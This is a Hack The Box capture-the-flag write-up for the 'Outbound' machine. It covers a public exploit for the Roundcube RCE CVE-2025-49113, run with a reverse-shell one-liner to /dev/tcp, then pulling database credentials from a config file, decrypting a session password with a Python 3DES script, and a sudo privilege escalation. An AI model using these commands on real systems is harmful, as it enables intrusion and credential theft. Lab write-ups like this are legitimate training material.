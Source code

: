 ```yaml
---
layout: default
title: "Outbound HTB Writeup"
date: 2025-07-20 13:54:00 +0300
categories: [HTBs]
tags: [cybersecurity, hacking, hackthebox, machines]
---
```


# Outbound HTB Writeup

## Importance of This Machine

Hello! Today I want to talk about a machine called **Outbound**. In my opinion, this machine was a great example of how important it is to keep up with cybersecurity news. In June 2025, the mail provider **cock.li** was hacked using a vulnerability identified as **CVE-2025-49113**.

## What is CVE-2025-49113?

**CVE-2025-49113** is an **authenticated remote code execution (RCE)** vulnerability in **Roundcube Webmail**.

## Writeup

### Initial Scanning

I started with an Nmap scan:

```

nmap -sV 10.10.11.77

````

Only two ports were open:

- SSH (22)
- HTTP (80)

### Exploring the Web Service

When I visited the HTTP port in the browser, I realized I needed to add `mail.outbound.htb` to my `/etc/hosts` file.

After that, accessing the domain revealed a Roundcube login page.

> (I actually remembered this from a previous leak 😅)

According to the information on the [Hack The Box machine page](https://app.hackthebox.com/machines/Outbound), we are given credentials for a user named **tyler**.

---

### Exploiting CVE-2025-49113

I used the public exploit for CVE-2025-49113:

```bash
wget https://raw.githubusercontent.com/fearsoff-org/CVE-2025-49113/refs/heads/main/CVE-2025-49113.php
````

Then ran:

```bash
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'sh -i >& /dev/tcp/10.10.14.87/2311 0>&1'"
```

> ✅ This gave me a shell as the `www` user!

---

### Enumeration

Inside the web directory, I found the Roundcube configuration file:

```bash
cat /var/www/html/roundcube/config/config.inc.php
```

It contained MySQL credentials:

```
Username: roundcube  
Password: RCDBPass2025
```

I logged into the database:

```bash
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube
```

Then ran:

```sql
USE roundcube;
SELECT * FROM session;
```

This revealed base64-encoded serialized session data. After decoding it, I found:

```
username|s:5:"jacob";
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";
```

---

### Cracking the Password

To decrypt the password, I used the following Python script:

```python
from Crypto.Cipher import DES3
from base64 import b64decode

def decrypt_password(encrypted_password, key="rcmail-!24ByteDESkey*Str"):
    try:
        des_key = key.encode('utf-8')
        data = b64decode(encrypted_password)
        iv = data[:8]
        ciphertext = data[8:]
        
        cipher = DES3.new(des_key, DES3.MODE_CBC, iv=iv)
        decrypted = cipher.decrypt(ciphertext)
        
        return decrypted.rstrip(b"\0").decode('utf-8', errors='ignore')
        
    except Exception as e:
        return f"Error: {str(e)}"

encrypted = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"
print(f"Decrypted password: {decrypt_password(encrypted)}")
```

**Output:**

```
Decrypted password: ********
```

Now, I could log in via SSH using Jacob’s credentials.

---

### Privilege Escalation

Once inside, I ran:

```bash
sudo -l
```

I had permission to run a binary called `below`. After some quick research, I found a [privilege escalation exploit](https://github.com/rvizx/CVE-2025-27591) for it.

Running the exploit script gave me **root access**.

---

Thanks for reading! 😄
Happy hacking!

